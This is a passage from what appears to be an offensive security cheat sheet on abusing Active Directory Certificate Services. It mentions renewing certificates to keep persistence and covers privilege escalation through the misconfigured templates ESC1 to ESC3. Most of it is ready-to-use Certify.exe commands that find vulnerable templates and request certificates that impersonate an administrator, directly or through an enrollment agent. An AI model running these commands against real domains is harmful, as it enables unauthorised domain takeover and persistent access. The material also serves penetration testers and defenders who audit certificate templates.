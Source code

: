 _The attacker, however, can renew the certificate before expiration. This can function as an extended persistence approach that prevents additional ticket enrollments from being requested, which can leave artifacts on the CA server itself._

## Domain Privesc

### Template Attacks - ESC1, 2, 3, 9 & 10

[![image-1640805125672.png](https://hideandsec.sh/uploads/images/gallery/2021-12/scaled-1680-/mlK5E1SH1D1CzLOG-image-1640805125672.png)](https://hideandsec.sh/uploads/images/gallery/2021-12/mlK5E1SH1D1CzLOG-image-1640805125672.png)

* **ESC1** : SAN authorized & Low Privileged Users can enroll & Authentication EKU
* **ESC2** : Low Privileged Users can enroll & Any or No EKU
* **ESC3** : Certificate Request Agent EKU & Enrollment agent restrictions are not implemented on the CA
  * A template allows a low-privileged user to use an enrollment agent certificate.
  * Another template allows a low privileged user to use the enrollment agent certificate to request a certificate on behalf of another user, and the template defines an EKU that allows for domain authentication.

#### Template misconfiguration - ESC1, 2 & 3

##### Windows

###### ESC1 & 2
```powershell
# Find vulnerable/abusable certificate templates using default low-privileged group
Certify.exe find /vulnerable

# Find vulnerable/abusable certificate templates using all groups the current user context is a part of:
Certify.exe find /vulnerable /currentuser

# Request certificate with SAN
Certify.exe request /ca:CA.contoso.local\CA /template:"Vulnerable template" /altname:"admin"

# Convert PEM to PFX (from Linux)
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out admin.pfx
```

If **ANY EKU** but no Client Authentication, it can be used as en **ESC3**.

###### ESC2 & 3
```powershell
# Request an enrollment agent certificate
Certify.exe request /ca:CA.contoso.local\CA /template:Vuln-EnrollAgentTemplate

# Request a certificate on behalf of another to a template that allow for domain authentication
Certify.exe request /ca:CA.contoso.local\CA /template:User /onbehalfon:CONTOSO\Admin /enrollcert:enrollmentAgentCert.pfx /enrollcertpw:Passw0rd!
```
